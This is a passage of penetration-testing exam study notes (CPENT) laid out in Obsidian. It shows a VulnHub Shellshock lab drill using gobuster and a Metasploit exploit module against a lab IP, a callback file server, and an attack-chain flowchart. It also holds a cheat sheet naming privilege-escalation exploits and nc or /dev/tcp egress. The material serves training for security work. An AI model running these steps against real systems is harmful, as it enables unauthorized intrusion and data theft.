gobuster dir -u http://192.168.0.24 -w /usr/share/wordlists/dirb/common.txt

msfconsole
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS 192.168.0.24
set RPORT 80
set TARGETURI /cgi-bin/keygen
exploit
```

Hosting files for transfer/callbacks:

```bash
python3 -m http.server 80
```

```mermaid
flowchart TD
  R[Recon dirb/gobuster] --> F[Find /cgi-bin/keygen]
  F --> E[MSF apache_mod_cgi_bash_env_exec]
  E --> S[Remote shell / Meterpreter]
  S --> P[PrivEsc / Pivot / Loot]
```

Lab reference: [VulnHub Shellshock](https://www.vulnhub.com/entry/pentester-lab-cve-2014-6271-shellshock,104/).

---

## How to use these notes in Obsidian

1. Keep [[CPENT-exam-notes-Vincent-hackmd]] open for original screenshots + exact command snippets.  
2. Use **this** file for understanding and Mermaid mental models.  
3. Practice each block as a mini drill: scan → enum → foothold → egress → pivot → AD/web/IoT.  
4. In the Graph view, link related module notes:  
   - [[01-binary-exploitation]]  
   - [[02-iot-scada]]  
   - [[03-web-api-jwt]]  
   - [[05-ad-and-pivoting]]  
   - [[00-exam-facts]]

---

## Quick command cheat sheet

| Phase | Go-to tools |
|---|---|
| Host discover | `nmap -sn -PS…`, ping sweep |
| Port discover | RustScan → `nmap -sVC` |
| Enum | `nmap -sVC`, UDP top ports, dirb/gobuster |
| Foothold | MSF (EternalBlue, Shellshock), service-specific |
| PrivEsc | Dirty COW / PwnKit / LXD (+ enum first) |
| Egress | `nc`/`/dev/tcp` out + `tcpdump` on attacker |
| Pivot | SSH `-L/-R/-D/-J`, socat, chisel, MSF autoroute |
| IoT | binwalk, xortool, hexdump |
| Binary | strings, objdump, gdb |
| AD | ADRecon, Kerberos attack chain awareness |
| OT | tcpdump `:502`, Wireshark OUI resolve |
| Post | `find`/`dir`, `grep`/`findstr` |

---

*Source note: [HackMD — CPENT考試筆記(Vincent)](https://hackmd.io/@6AhJdzpGTyGDlAxru4jZbA/r1fLYbAx0)*  
*Local mirror: `CPENT-exam-notes-Vincent-hackmd.md` + `_hackmd-slides/`*
